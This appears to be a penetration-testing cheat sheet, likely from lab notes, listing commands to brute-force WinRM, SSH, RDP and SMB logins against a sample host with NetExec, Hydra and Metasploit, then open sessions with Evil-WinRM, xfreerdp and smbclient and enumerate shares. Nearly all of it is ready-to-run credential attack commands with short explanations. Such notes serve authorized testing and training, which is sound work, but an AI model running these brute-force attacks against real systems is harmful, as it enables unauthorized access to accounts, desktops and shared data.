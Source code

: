 ```yaml
---
title: Network Password Attacks
category: Access
tags: [network, winrm, ssh, smb, rdp, brute]
tools: ['netexec', 'evil-winrm', 'hydra', 'msfconsole', 'xfreerdp']
---
```


# Network Password Attacks

Commands and tools for brute forcing network services (WinRM, SSH, RDP, SMB) to gain initial access.  
Each section explains the purpose and how the commands are typically used.

---

## Tools

```bash
sudo apt-get -y install netexec
sudo gem install evil-winrm
```

---

## WinRM – [NetExec](https://github.com/Pennyw0rth/NetExec)

WinRM often exposes remote PowerShell access on Windows systems.  
With valid credentials, [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) provides an interactive session.

```shell-session
# Brute force with NetExec
netexec winrm 10.129.42.197 -u user.list -p password.list

# Connect interactively once creds are valid
evil-winrm -i 10.129.42.197 -u user -p password
```

---

## SSH – Hydra

SSH is a common brute force target if password authentication is enabled.  
Hydra can quickly attempt user/pass combinations.

```shell-session
# Brute force SSH with Hydra
hydra -L user.list -P password.list ssh://10.129.42.197

# Connect manually once creds are found
ssh user@10.129.42.197
```

---

## RDP – Hydra

RDP brute forcing is slower but can provide full desktop access if successful.  

```shell-session
# Brute force RDP with Hydra
hydra -L user.list -P password.list rdp://10.129.42.197

# Connect interactively with xfreerdp
xfreerdp /v:10.129.42.197 /u:user /p:password
```

---

## SMB – Hydra or Metasploit

SMB shares often reveal sensitive data. Weak creds can be brute forced with Hydra or Metasploit.

```shell-session
# Hydra brute force
hydra -L user.list -P password.list smb://10.129.42.197

# Metasploit module
msf6 > use auxiliary/scanner/smb/smb_login
set user_file user.list
set pass_file password.list

# Enumerate shares with NetExec
netexec smb 10.129.42.197 -u "user" -p "password" --shares

# Access a share manually
smbclient -U user \\10.129.42.197\SHARENAME
```